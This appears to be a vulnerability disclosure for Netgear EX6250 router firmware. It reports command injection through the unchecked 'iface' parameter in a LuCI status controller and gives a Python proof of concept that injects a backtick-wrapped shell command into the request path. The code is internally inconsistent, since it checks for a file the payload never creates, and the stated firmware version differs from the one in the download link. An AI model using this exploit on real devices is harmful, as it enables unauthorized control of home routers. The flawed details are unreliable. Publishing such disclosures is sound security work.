



Submittion Date: 2026.3.16  
Vendor: EX6250  
Firmware: V1.0.1.124  
Download Link: https://www.downloads.netgear.com/files/GDC/EX6250/EX7300v2_EX6400v2_EX6250v1-V1.0.0.124.zip

In /usr/lib/lua/luci/controller/admin/status.lua, the function ```action_wireless``` handles the important parameter string ```iface``` without checking it, which leads to a command injection vulnerability.




The potentially attacking vector is as follows:  
```py
import requests

target_ip = "192.168.1.250"
cookies = {'sysauth': 'sessionID'}

payload = "`ping%20192.168.1.2`"

url = f"http://{target_ip}/cgi-bin/luci/;stok=xxxxxx/admin/status/realtime/wireless_status/{payload}"

try:
    response = requests.get(url, cookies=cookies)
    print(f"Send: {response.status_code}")
    
    verify_url = f"http://{target_ip}/vuln_test.txt"
    v_res = requests.get(verify_url)
    if v_res.status_code == 200:
        print("[-] attack successfully!")
    else:
        print("[!] attack failed")
except Exception as e:
    print(f"failed: {e}")
```

The attacking result is as follows:


